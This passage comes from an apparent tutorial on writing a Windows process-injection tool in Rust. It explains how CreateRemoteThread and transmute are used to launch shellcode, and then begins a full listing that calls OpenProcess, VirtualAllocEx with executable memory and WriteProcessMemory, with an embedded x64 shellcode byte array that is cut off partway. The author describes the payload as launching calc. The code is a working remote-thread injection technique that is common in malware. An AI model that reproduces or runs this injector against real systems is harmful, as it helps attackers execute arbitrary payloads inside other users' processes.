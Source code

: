 I had some trouble while writing this piece of code, because the shellcode should be of type `*const c_void` but we had defined a vector shellcode, so after some research, I did it by changing that to a pointer and from that to `*const c_void`. Note that we have to import `c_void` from `std::mem`. Then finally creating the thread to run our shellcode.

### Create Remote Thread for Shellcode

```rust
let hThread = CreateRemoteThread(hProcess, None, 0, transmute(buf), None, 0, None);
if let Ok(hThread) = hThread {
    println!("Created Remote Thread : {:?}", hThread);
} else {
    eprintln!("Error Creating Remote Thread: {:?}", GetLastError());
    std::process::exit(4);
}
```

#### `Transmute` in Rust

&#x20;[Transmute](https://doc.rust-lang.org/std/mem/fn.transmute.html) is a function in Rust which allows to re-interpret the variable into another type (in an unsafe way). In our case, it converts the `buf` variable to what is expected by the `CreateRemoteThread` function which is `LPTHREAD_START_ROUTINE`. So we try tell the compiler that this buf should be treated as a function pointer which it does and we finally see our calc popping out.

### Full Code  & Output

```rust
#![allow(warnings)]

use windows::Win32::{
    Foundation::{CloseHandle, GetLastError},
    System::{
        Diagnostics::Debug::WriteProcessMemory, 
        Memory::{VirtualAllocEx, MEM_COMMIT, MEM_RESERVE, PAGE_EXECUTE_READWRITE}, 
        Threading::{CreateRemoteThread, OpenProcess, PROCESS_ALL_ACCESS, THREAD_ALL_ACCESS},
    },
};

use std::{
    os::raw::c_void, 
    ptr::{null, null_mut},
    mem::transmute,
};

fn main() {

    let shellcode: [u8; 276] = [0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,
    0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,
    0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,
    0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,
    0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,
    0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,
    0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,
    0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,
    0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,
    0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,
    0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,
    0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,
    0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,
    0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,
    0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,
    0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,
    0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,
    0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,
```